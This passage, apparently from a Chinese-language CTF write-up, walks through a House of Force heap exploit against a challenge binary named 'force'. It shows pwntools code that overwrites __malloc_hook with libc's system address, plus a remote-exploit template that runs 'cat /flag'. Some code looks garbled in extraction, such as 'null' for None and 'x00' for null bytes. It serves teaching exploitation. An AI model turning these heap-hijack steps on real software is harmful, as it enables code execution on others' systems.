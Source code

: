 ```
sh.recvuntil('2:puts')
sh.sendline('1')
sh.recvuntil('size')
sh.sendline(str(malloc_hook_addr - heap_base - 0x50))
sh.recvuntil('content')
sh.sendline('Anyvalue')
```

那么我们接下来就可以顺利的劫持`__malloc_hook`了。

```
sh.recvuntil('2:puts')
sh.sendline('1')
sh.recvuntil('size')
sh.sendline(str(0x10))
sh.recvuntil('content')
sh.sendline(p64(libc_base + libc.symbols['system']))
```

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

force=ELF('./force', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./force")

def get_address(sh,info=null,start_string=null,end_string=null,offset=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address+offset)))
    return return_address+offset

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
    gdb.attach(sh)
```